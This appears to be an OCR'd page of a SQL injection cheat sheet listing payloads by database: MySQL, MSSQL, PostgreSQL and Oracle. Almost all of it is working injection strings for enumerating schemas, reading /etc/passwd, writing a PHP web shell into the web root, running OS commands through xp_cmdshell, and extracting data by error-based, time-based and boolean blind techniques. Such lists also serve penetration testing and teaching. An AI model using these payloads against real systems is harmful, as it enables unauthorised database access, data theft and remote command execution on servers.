 - **How do we deal with the different databases**
  - MySQL:
    - Version: `parameter=1' UNION SELECT @@version,NULL,NULL--`
    - Current database: `parameter=1' UNION SELECT database(),NULL,NULL--`
    - List databases: `parameter=1' UNION SELECT group_concat(schema_name),NULL,NULL FROM information_schema.schemata--`
    - List tables: `parameter=1' UNION SELECT group_concat(table_name),NULL,NULL FROM information_schema.tables WHERE table_schema='database_name'--`
    - List columns: `parameter=1' UNION SELECT group_concat(column_name),NULL,NULL FROM information_schema.columns WHERE table_schema='database_name' AND table_name='table_name'--`
    - Read file: `parameter=1' UNION SELECT LOAD_FILE('/etc/passwd'),NULL,NULL--`
    - Write file: `parameter=1' UNION SELECT NULL,'<?php system($_GET["cmd"]); ?>',NULL INTO OUTFILE '/var/www/html/shell.php'--`
    - Error-based: `parameter=1' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version()),0x7e))--`
    - Time-based blind: `parameter=1' AND IF(SUBSTR(database(),1,1)='a',SLEEP(5),0)--`
    - Boolean blind: `parameter=1' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1)='a'--`

  - MSSQL:
    - Version: `parameter=1' UNION SELECT @@version,NULL,NULL--`
    - Current database: `parameter=1' UNION SELECT DB_NAME(),NULL,NULL--`
    - List databases: `parameter=1' UNION SELECT STRING_AGG(name,','),NULL,NULL FROM sys.databases--`
    - List tables: `parameter=1' UNION SELECT STRING_AGG(name,','),NULL,NULL FROM database_name..sysobjects WHERE xtype='U'--`
    - List columns: `parameter=1' UNION SELECT STRING_AGG(name,','),NULL,NULL FROM database_name..syscolumns WHERE id=(SELECT id FROM database_name..sysobjects WHERE name='table_name')--`
    - Execute commands: `parameter=1'; EXEC xp_cmdshell 'whoami'--`
    - Error-based: `parameter=1' AND 1=CONVERT(int,(SELECT @@version))--`
    - Time-based blind: `parameter=1'; IF (SELECT SUBSTRING(name,1,1) FROM sys.databases WHERE name='master')='m' WAITFOR DELAY '0:0:5'--`
    - Boolean blind: `parameter=1'; IF (SELECT SUBSTRING(name,1,1) FROM sys.databases WHERE name='master')='m' SELECT 1 ELSE SELECT 0--`

  - PostgreSQL:
    - Version: `parameter=1' UNION SELECT version(),NULL,NULL--`
    - Current database: `parameter=1' UNION SELECT current_database(),NULL,NULL--`
    - List databases: `parameter=1' UNION SELECT string_agg(datname,','),NULL,NULL FROM pg_database--`
    - List tables: `parameter=1' UNION SELECT string_agg(table_name,','),NULL,NULL FROM information_schema.tables WHERE table_schema='public'--`
    - List columns: `parameter=1' UNION SELECT string_agg(column_name,','),NULL,NULL FROM information_schema.columns WHERE table_schema='public' AND table_name='table_name'--`
    - Read file: `parameter=1' UNION SELECT pg_read_file('/etc/passwd'),NULL,NULL--`
    - Write file: `parameter=1' UNION SELECT NULL,pg_write_file('/tmp/test.txt', 'data'),NULL--`
    - Error-based: `parameter=1' AND 1=cast(version() as int)--`
    - Time-based blind: `parameter=1' AND CASE WHEN (SELECT substring(current_database(),1,1))='p' THEN pg_sleep(5) ELSE pg_sleep(0) END--`
    - Boolean blind: `parameter=1' AND (SELECT ASCII(substring(current_database(),1,1))=112)--`

  - Oracle:
    - Version: `parameter=1' UNION SELECT banner,NULL,NULL FROM v$version--`
    - Current database: `parameter=1' UNION SELECT SYS.DATABASE_NAME,NULL,NULL FROM dual--`
    - List tables: `parameter=1' UNION SELECT table_name,NULL,NULL FROM all_tables--`
    - List columns: `parameter=1' UNION SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name='TABLE_NAME'--`
    - Error-based: `parameter=1' AND EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "'||(SELECT username FROM all_users WHERE rownum=1)||'"> %remote;]>'),'/l') FROM dual--`
    - Time-based blind: `parameter=1' AND CASE WHEN SUBSTR(user,1,1)='S' THEN dbms_pipe.receive_message('RDS',5) ELSE dbms_pipe.receive_message('RDS',0) END FROM dual--`
    - Boolean blind: `parameter=1' AND (SELECT SUBSTR(username,1,1) FROM all_users WHERE rownum=1)='S'--`
